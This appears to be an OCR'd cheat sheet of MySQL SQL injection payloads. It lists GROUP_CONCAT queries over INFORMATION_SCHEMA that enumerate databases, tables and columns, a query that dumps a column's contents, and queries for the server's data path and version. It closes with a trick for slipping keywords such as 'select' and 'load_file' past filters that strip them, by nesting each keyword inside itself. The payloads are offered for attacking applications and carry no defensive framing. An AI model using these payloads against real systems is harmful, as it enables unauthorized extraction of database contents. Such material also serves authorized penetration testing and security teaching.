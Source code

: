 


# Leak all of the database names as a string
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA

# Leak all of the tables in one database as a string
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"

# Leak the column names of a table as a string
SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"


# Leak the ONE column from a table
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"


# Get the path of the running MySQL instance
SELECT @@datadir

# Get the version of the running MySQL instance
SELECT @@version



# Some applications try to replace keywords with an empty string. If this is the case,
# try and trick it by placing the keyword inside of itself. This is devious! 
frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select